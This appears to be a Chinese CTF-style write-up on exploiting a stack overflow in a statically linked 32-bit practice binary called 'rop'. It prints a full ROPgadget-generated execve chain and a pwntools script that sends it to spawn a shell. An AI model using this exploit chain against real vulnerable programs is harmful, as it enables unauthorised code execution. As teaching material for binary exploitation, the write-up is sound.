

- `one-gadget`利用

1. `overflow()`函数中存在溢出

2. 没有`system`也没有输出函数

3. 没有`/bin/sh`或者`sh`可利用字段

4. 程序是静态链接

   ```shell
   bamuwe@qianenzhao:~$ file rop
   rop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=e9ed96cd1a8ea3af86b7b73048c909236d570d9e, not stripped
   ```

   

利用`ROPgadgets`工具生成`ROP`链

```shell
bamuwe@qianenzhao:~$ ROPgadget --binary rop --ropchain
```

生成`ROP`链

```python
#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80
```

构造`payload`得到`shell`

```python
from pwn import *
from struct import pack
io = process('./rop')
padding = b'A'*(0xC+0x4)

p = b''
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80
payload = padding + p
io.sendline(payload)
io.interactive()
```

